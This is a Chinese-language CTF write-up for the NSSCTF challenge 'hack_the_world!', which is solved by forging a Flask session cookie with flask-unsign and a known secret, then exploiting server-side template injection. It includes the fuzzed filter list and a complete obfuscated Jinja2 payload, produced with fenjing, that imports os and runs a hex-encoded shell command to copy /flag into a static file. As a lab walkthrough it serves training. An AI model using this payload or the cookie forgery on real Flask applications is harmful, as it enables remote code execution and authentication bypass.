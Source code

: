 ## 基本信息

- 题目名称： [NSSRound#30 Duo]hack_the_world!
- 题目链接： https://www.nssctf.cn/problem/6672
- 考点清单： ssti，session伪造，jwt
- 工具清单： python环境，flask-unsign，burpsuite，yakit

## 一、看到什么

下载附件后得到flask源码，进行代码审计，发现有ssti漏洞，不过有其他限制：session认证机制和一些过滤机制

## 二、想到什么解题思路

针对于session认证机制，可以通过修改伪造jwt来绕过

针对于过滤waf，可以发送fuzz字典来判断哪些字符被限制了

针对于ssti漏洞可以尝试用fenjing在本地搭建的靶场来测试获得payload然后获得flag

## 三、尝试过程和结果记录

首先访问靶机，查看当前的cookie值

![](./images/0528wp_dejwt.png)

无法直接修改，修改后无法通过，用`flask-session-cookie-manager`或`Flask-Unsign`伪造

这里选择用flask-unsign

```bash
flask-unsign --sign --cookie "{'user':'hacker'}" --secret "NSS"
eyJ1c2VyIjoiaGFja2VyIn0.aD7neg.KGfe1URZmpIpS_7IaLPGd4PwCwQ
```

然后访问`/hack`路由，发现成功通过这关，使用burpsuite或者yakit批量发送自己积累的字符字典

![](./images/0528wp_fuzzing.png)

可以测出来被waf掉的字符有

```waf
['.','/','mro','read','%','_',']']
```

又因为注释中说没有nc，ping，curl，那么dns外带的方式不可能，就选择写入静态文件，在前端看尝试看flag，或者发送反弹shell拿flag也可

```bash
cat /flag > /app/static/script.js
```

然后把这个过滤的内容改到我本地环境起的靶机中的限制条件里，然后用`fenjing`拿到对应的payload

```payload
{{lipsum|attr(lipsum|escape|batch(22)|list|first|last+lipsum|escape|batch(22)|list|first|last+'globals'+lipsum|escape|batch(22)|list|first|last+lipsum|escape|batch(22)|list|first|last)|attr('get')(lipsum|escape|batch(22)|list|first|last+lipsum|escape|batch(22)|list|first|last+'builtins'+lipsum|escape|batch(22)|list|first|last+lipsum|escape|batch(22)|list|first|last)|attr('get')(lipsum|escape|batch(22)|list|first|last+lipsum|escape|batch(22)|list|first|last+'import'+lipsum|escape|batch(22)|list|first|last+lipsum|escape|batch(22)|list|first|last)('os')|attr('popen')("\x63\x61\x74\x20\x2f\x66\x6c\x61\x67\x20\x3e\x20\x2f\x61\x70\x70\x2f\x73\x74\x61\x74\x69\x63\x2f\x73\x63\x72\x69\x70\x74\x2e\x6a\x73")|attr('r''ead')()}}
```

然后发送后可以在前端的js文件中得到flag

## 四、总结与反思

在遇到ssti注入的问题时，自己无法构造出payload或者想快速构造payload可以用本地环境以及配合工具`fenjing`获得